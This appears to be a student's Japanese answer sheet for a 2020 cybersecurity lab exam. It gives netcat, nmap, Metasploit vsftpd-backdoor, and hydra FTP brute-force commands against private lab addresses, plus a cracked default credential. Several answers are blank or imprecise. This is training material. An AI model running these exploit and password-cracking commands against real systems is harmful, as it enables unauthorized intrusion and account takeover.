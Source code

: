 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# nc -lvp 5555

```
#### クライアント側コマンド

```sh
# nc 192.168.33.11 5555

```
### 1.
#### サーバー側コマンド

```sh
# nc -lvp 5555 < file

```
#### クライアント側コマンド

```sh
# nc 192.168.33.12 5555 > file

```

## 問2 [Password Crack]

### 1.
```md
<!--   -->

```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap 192.168.33.0/24

```

### 2. version scan

```sh
# nmap 192.168.33.12 

```

## 問4 [Metasploit Framework]

```sh
# use unix/ftp/vsftpd_234_backdoor
# set RHOSTS 192.168.33.12
# exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P passwd.list -t 8 -o result.lst 192.168.33.11 ftp

```

### 2. 解析結果

```sh
# msfadmin msfadmin

```

## 問6 [Packet Sniffer]

```sh
# http

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  49点 -->

```

## 問9 [講義の感想]

1.

```md
<!-- ncやhydra,johnなどを使用し、パスワード解析を学んだ。  -->

```

2.
```md
<!-- とても難しかったが、セキュリティについて学ぶことができたので楽しかったです。  -->

```

